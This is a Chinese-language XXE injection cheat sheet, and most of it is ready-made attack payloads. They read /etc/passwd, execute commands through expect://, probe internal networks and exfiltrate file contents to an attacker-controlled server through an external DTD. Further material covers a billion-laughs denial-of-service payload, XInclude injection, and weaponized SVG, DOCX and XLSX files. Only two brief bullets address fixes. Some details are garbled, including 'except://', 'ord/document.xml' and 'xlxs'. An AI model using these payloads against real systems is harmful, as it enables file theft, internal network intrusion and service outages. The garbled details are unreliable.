 # XXE

XXE(XML External Entity Injection) 全称为 XML 外部实体注入，从名字就能看出来，这是一个注入漏洞，注入的是什么？XML外部实体。(看到这里肯定有人要说：你这不是在废话)，固然，其实我这里废话只是想强调我们的利用点是 外部实体 ，也是提醒读者将注意力集中于外部实体中，而不要被 XML 中其他的一些名字相似的东西扰乱了思维(盯好外部实体就行了)，如果能注入 外部实体并且成功解析的话，这就会大大拓宽我们 XML 注入的攻击面

## payload

### 有回显

读取任意文件

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "file:///etc/passwd">]>
    <root>&name;</root>
    
命令执行

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "except://ls">]>
    <root>&name;</root>

内网探测

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE root [
    <!ENTITY name SYSTEM "http://192.168.1.1">]>
    <root>&name;</root>    
    
### 无回显

HTTP外带

    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE ANY[
    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % remote SYSTEM "http://攻击者服务器IP:8888/evil.xml">
    %remote;
    %all;
    %send;
    ]>
    <root>&name;</root>

evil.xml

    <!ENTITY % all "<!ENTITY % send SYSTEM 'http://攻击者服务器IP:8888/1.php?file=%file;'>">

拒绝服务攻击

    <?xml version="1.0"?>
    <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
    ]>
    <lolz>&lol9;</lolz>
 
 ## 场景
 
 ### 用户输入嵌入到服务端解析的XML文档
 
 比如：检查库存功能
 
 因为无法控制整个XML文档，所以无法定义DTD来发起经典的XXE攻击。但改用XInclude，XInclude是XML规范的一部分，它允许从子文档构建XML文档
 
 payload
 
    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:include parse="text" href="file:///etc/passwd"/>
    </foo>
    
将payload替换库存的id

### 基于XML格式的文件，比如DOCX文档、SVG图像等

#### 比如：头像上传处

svg文件payload

    <svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
        <image xlink:href="expect://ls" width="200" height="200"></image>
    </svg>
    
然后头像就可能显示出数据

---

#### 比如：在线阅读DOCX文档、网站在线解析DOCX文档等功能

DOCX文档其实就是把一堆的XML文件按照一定的格式压缩在一起。

只需要把DOCX文档的后缀改为ZIP，并解压出其中的文件，就可以清晰地看到DOCX文档的“真实面貌“。

第一个回显位置：ord/document.xml文件中

在

    <?xml version.....>
    
的下方嵌入恶意代码

    <!DOCTYPE HACK[<!ENTITY Hack SYSTEM 'file:///etc/passwd'>]>
    
随后将这个压缩包的后缀名修改为DOCX，就得到了一个用于XXE攻击的DOCX文档

第二个回显位置：docProps/app.xml

找到控制页码的标签是<Pages>

    <Pages>1</Pages>
    
修改为

    <Pages><!DOCTYPE HACK[<!ENTITY Hack SYSTEM 'file:///etc/passwd'>]></Pages>
    
随后将这个压缩包的后缀名修改为DOCX，就得到了一个用于XXE攻击的DOCX文档

---

#### 比如：Excel文件

与上面的DOCX文件类似

把xlxs文档后缀改为zip，找到xl/workbook.xml文件

    <?xml version ....>

下方添加恶意代码

将压缩包后缀重新改回xlxs文件即可得到一个恶意Excel文件。

### 修改请求包内容类型

大多数POST请求使用由HTML表单生成的默认内容类型，例如application/x-www-form-urlencoded。

将

    POST /action HTTP/1.0
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 7
     
    foo=bar
    
修改为

    POST /action HTTP/1.0
    Content-Type: text/xml
    Content-Length: 52
     
    <?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>    
    
如果应用程序接受消息正文中包含XML请求，并将正文内容解析为XML，那么我们只需将请求重新修改XML格式，就可以达到隐藏的XXE攻击面。
    
## 漏洞修复

* 禁用外部实体
* 过滤关键字，如<!DOCTYPE 、<!ENTITY、SYSTEM和PUBLIC等